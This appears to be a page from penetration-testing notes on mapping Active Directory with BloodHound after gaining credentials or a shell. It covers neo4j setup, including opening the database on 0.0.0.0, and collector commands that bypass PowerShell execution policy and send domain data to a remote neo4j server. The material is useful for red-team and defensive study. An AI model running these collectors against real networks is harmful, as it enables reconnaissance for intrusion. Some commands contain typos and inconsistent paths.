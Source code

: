 ### Mapping AD with BloodHound

One of the glorious design features of AD is that everyone in the domain needs to know where everything is. So when you get user credentials and/or a shell, you can basically map the entire domain without breaking any rules. Any user can query Active Directory for computers, domain controllers, groups and sessions.

Now we can use this brilliant feature to collect a ton of information and create a cool GUI map of the entire AD which can be queried using BloodHound. Do the following:

* [Install neo4j](https://neo4j.com/developer/kb/how-do-i-enable-remote-https-access-with-neo4j-30x/) [Community Edition](https://neo4j.com/download/community-edition/) manually from their [website](https://neo4j.com/download/?ref=hro) , not through apt.
* [http://neo4j.com/download/other-releases/\#releases](http://neo4j.com/download/other-releases/#releases)
* [A guide on installing can be found here](https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/)
* Run neo4j from `/opt/neo4j-community-3.3.0/bin/neo4j start`
* Navigate to localhost:7474 in your browser.
* Set a new password for the neo4j account.
* Edit neo4j.conf and set the following parameters to make any host be able to access the database.
  ```
  dbms.connector.http.enabled=true
  dbms.connector.http.listen_address=0.0.0.0:7474
  ```
* Restart neo4j with  `/opt/neo4j-community-3.1.1/bin/neo4j restart`
* Access neo4j in the browser at `http://0.0.0.0:7474/browser/`

##### Neo4j on Windows
Neo4j can be started with powershell on windows.
* Spawn an administrative powershell with -bypass exec
* Navigate to the neo4j/bin directory
* `Import-Module .\Neo4j-Management.psd1`

* `Invoke-Neo4j Console`

##### Neo4j on Mac


#### Back to Bloodhound

* Install BloodHound according to instructions on the [Github page](https://github.com/BloodHoundAD/BloodHound/wiki/Getting-started)

* If on a Mac, Java SDK must be version 8 and not 9 \(neo4j not suppported\). So

* Launch BloodHound and log in to the neo4j database with credentials from before

The old method:

```
powershell -exec bypass
upload /path/bloodhound.ps1
Import-Module ./BloodHound.ps1
Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```

The new method:

```
scriptimport /path/to/powershell-script.ps1
scrimptcmd Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```

You should now see data being populated into the database and you can play with BloodHound to create really some really cool maps. You can also perform queries to show the shortest path to DA, etc.

Another method:

```
Powershell -exec bypass
Import-module SharpHound.ps1
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData –SkipPing
```

### More Bloodhound stuff

https://posts.specterops.io/sharphound-target-selection-and-api-usage-bba517b9e69b

https://github.com/porterhau5/BloodHound

[https://porterhau5.com/blog/representing-password-reuse-in-bloodhound/](https://porterhau5.com/blog/representing-password-reuse-in-bloodhound/)

[https://porterhau5.com/blog/extending-bloodhound-track-and-visualize-your-compromise/](https://porterhau5.com/blog/extending-bloodhound-track-and-visualize-your-compromise/)

http://threat.tevora.com/lay-of-the-land-with-bloodhound/

